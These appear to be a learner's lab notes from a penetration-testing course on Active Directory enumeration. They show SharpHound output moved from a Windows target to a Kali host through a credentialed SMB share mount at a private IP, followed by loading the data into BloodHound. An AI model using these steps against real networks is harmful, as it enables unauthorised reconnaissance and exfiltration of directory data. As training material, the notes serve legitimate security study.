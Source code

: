 ```hlt:20
d-r---         9/29/2022   4:30 AM                Videos                                                               
-a----        10/10/2022   7:25 AM          11995 20221010072521_BloodHound.zip                                     
-a----        10/10/2022   7:23 AM        1318097 SharpHound.ps1                                                       
-a----        10/10/2022   5:02 AM        1936384 winPEAS.exe                                                          
-a----        10/10/2022   7:25 AM           8703 Zjc5OGNlNTktMzQ0Ni00YThkLWEzZjEtNWNhZGJlNzdmODZl.bin 
```

Transfer file to Kali by smb server

On Kali: 
![[Pasted image 20250302132408.png]]

On target:

Create $pass
![[Pasted image 20250302132538.png]]

Create $cred
![[Pasted image 20250302132616.png]]

Mount the remote smbshare

`New-PSDrive -Name cadet -PSProvider FileSystem -Credential $cred -Root \\192.168.45.222\Bloody` 

![[Pasted image 20250302132708.png]]

Cd to that share
![[Pasted image 20250302132324.png]]

Copy the bloodhound.zip to this share
![[Pasted image 20250302132453.png]]
Money:
![[Pasted image 20250302132808.png]]

Start #neo4j 
`sudo neo4j start`

Start #Bloodhound 
`bloodhound`

Received error... bad JSON file :( 

Just need to drag and drop the file in instead. 

Upload zip archive
![Figure 9: Upload Zip Archive to BloodHound](https://static.offsec.com/offsec-courses/PEN-200/imgs/atpr/85f078a6351f241c1f7c7ecdc6a44c58-atp_sita_bhupload2.png)

#### Begin Enumeration with BloodHound
First, build a raw query to display all computers 
```
MATCH (m:Computer) RETURN m
```
